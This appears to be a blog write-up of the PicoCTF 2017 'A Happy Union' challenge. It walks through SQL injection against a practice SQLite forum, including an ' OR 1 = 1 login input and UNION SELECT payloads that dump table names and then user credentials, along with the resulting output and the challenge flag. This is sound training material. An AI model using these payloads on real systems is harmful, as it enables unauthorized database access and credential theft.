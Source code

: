 ```yaml
---
layout:     post
title:      "PicoCTF - A Happy Union"
subtitle:   "Write-Ups"
date:       2017-04-16 0:00:00
author:     "W3ndige"
permalink: /:title/
category: PicoCTF 2017
---
```


<p>I really need access to website, but I forgot my password and there is no reset. Can you help? I like lite sql :)</p>

{% highlight html %}
w3ndige@W3ndige ~> curl http://shell2017.picoctf.com:41558/
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Top Notch Forum</title>
    <link href="/static/css/bootstrap.min.css" rel="stylesheet">
    <link href="/static/css/style.css" rel="stylesheet">  
  </head>
    <body>
        <div class="container">
          <div class="row">
            <div class="text-center">
                <h1> Welcome to the Super Poster Forum! </h1>
            </div>
        </div>
        <div class="row">
            <br />
            <br />
            <br />
            <br />
        </div>
        <div class="row">
            <div class="col-md-12 text-center">
                <a href="/login" class="btn btn-primary btn-md" role="button">Login</a>
                <a href="/register" class="btn btn-primary btn-md" role="button">Register</a>
            </div>
        </div>
      </div>
        <script src="/static/js/bootstrap.min.js"></script>
        <script src="/static/js/jquery.min.js"></script>
        <script type="text/javascript" src="/static/js/client.js"></script>

    </body>
</html>⏎         
{% endhighlight %}

<p>A happy union? It has to do something with <b>union sql injection</b>. Let's firstly check, how bad can we go when registering a new user. </p>

{% highlight html %}
username: ' OR 1 = 1
password: asd
{% endhighlight %}

<p>Now, after logging in, we can clearly see the SQL query which is used to take out the data from the database. And yeah, our input isn't sanitized at all, so we're clear to create <b>UNION</b> injection. </p>

{% highlight sql %}
select id, user, post from posts where user = '' OR 1 = 1';
{% endhighlight %}

<p>Our first step would be creating a query that will tell us names of the tables in the database. Since we know it's <b>sqlite</b> it won't be that hard. </p>

{% highlight sql %}
' union SELECT null, null, name FROM sqlite_master;--
{% endhighlight %}

<p>We have to use 2 <b>null</b> columns, since the base query is taking out content of 3 columns, and so we have to in the union query. Dashes in the end will comment out everything afer them, just in case. </p>

{% highlight html %}
<div class="row">
     <div class="text-center">
         <h1> Welcome &#39; union SELECT null, null, name FROM sqlite_master;-- to the Super Poster Forum! </h1>
     </div>
 </div>

 <div class="row">
     <div class="text-center">
         <h3> The current posts are:</h3>
     </div>
 </div>
 <div class="row">
     <table class="table">
         <thead>
         <tr>
             <th>Post ID</th>
             <th>User</th>
             <th>Value</th>
         </tr>
         </thead>
         </tbody>
                 <tr><td>None </td><td> None</td> <td> posts</td></tr>

                 <tr><td>None </td><td> None</td> <td> sqlite_sequence</td></tr>

                 <tr><td>None </td><td> None</td> <td> users</td></tr>
         </tbody>
     </table>
 </div>
{% endhighlight %}

<p>Great, we have <b>users</b> table, from which we can now try to get the flag. Here we go with the last query. </p>

{% highlight sql %}
' union SELECT user, pass, null FROM users;--
{% endhighlight %}

<p>User, pass column names? Let's check that out. </p>

{% highlight html %}
<div class="row">
    <div class="text-center">
        <h1> Welcome &#39; union SELECT user, pass, null FROM users;-- to the Super Poster Forum! </h1>
    </div>
</div>
<div class="row">
    <div class="text-center">
        <h3> The current posts are:</h3>
    </div>
</div>
<div class="row">
    <table class="table">
        <thead>
        <tr>
            <th>Post ID</th>
            <th>User</th>
            <th>Value</th>
        </tr>
        </thead>
        </tbody>
                <tr><td>&#39; union SELECT user, pass, null FROM users;-- </td><td> asd</td> <td> None</td></tr>

                <tr><td>admin </td><td> flag{union?_why_not_onion_b6e6a3cd8e3f1fe5f6109d1618bddbd1}</td> <td> None</td></tr>
        </tbody>
    </table>
</div>
{% endhighlight %}

<p>Great SQL Injection challenge! </p>
